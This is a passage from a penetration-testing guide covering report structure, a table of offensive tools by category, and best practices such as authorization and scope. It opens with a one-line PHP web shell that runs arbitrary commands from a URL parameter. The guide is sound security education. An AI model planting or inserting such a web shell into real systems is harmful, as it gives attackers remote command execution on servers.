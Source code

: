 ### Example Web Shell (PHP)

```php
<?php system($_GET['cmd']); ?>
```

---

## 8. Reporting and Documentation

A high-quality pentesting report includes:

1. **Executive Summary:** Non-technical overview of findings, impacts, and recommendations.
2. **Detailed Findings:** Document all vulnerabilities, steps to reproduce, and severity.
3. **Exploitation Details:** Proof of concept for each vulnerability (payloads or commands used).
4. **Remediation Recommendations:** Patching, configuration changes, or security controls.
5. **Appendix:** Technical details, logs, and tool outputs as supplementary evidence.

---

## 9. Common Pentesting Tools by Category

| **Category**            | **Tools**                                                  |
|-------------------------|------------------------------------------------------------|
| **Reconnaissance**       | Nmap, Recon-ng, theHarvester, Shodan                       |
| **Scanning & Enumeration** | Nmap, Netcat, Nikto, Enum4linux, Gobuster                 |
| **Vulnerability Scanning** | Nessus, OpenVAS, Nikto, SQLMap                           |
| **Exploitation**         | Metasploit, Cobalt Strike, BeEF, Responder                |
| **Post-Exploitation**   

 | Mimikatz, BloodHound, CrackMapExec, WinPEAS, LinPEAS       |
| **Persistence**          | Scheduled Tasks, Registry Keys, Web Shells, DLL Injection |
| **Password Cracking**    | John the Ripper, Hashcat, Hydra, Medusa                   |

---

## 10. Pentesting Best Practices

- **Follow Scope and Rules of Engagement:** Define clear boundaries and obtain written authorization.
- **Document Actions:** Keep detailed notes of each step taken for reporting and auditing.
- **Use Non-Destructive Testing Techniques:** Avoid testing techniques that could disrupt services unless explicitly authorized.
- **Limit Privilege Escalation and Lateral Movement:** Minimize invasive actions and only escalate when required.
- **Practice Operational Security (OPSEC):** Use VPNs, anonymization, and encrypted storage for sensitive data.
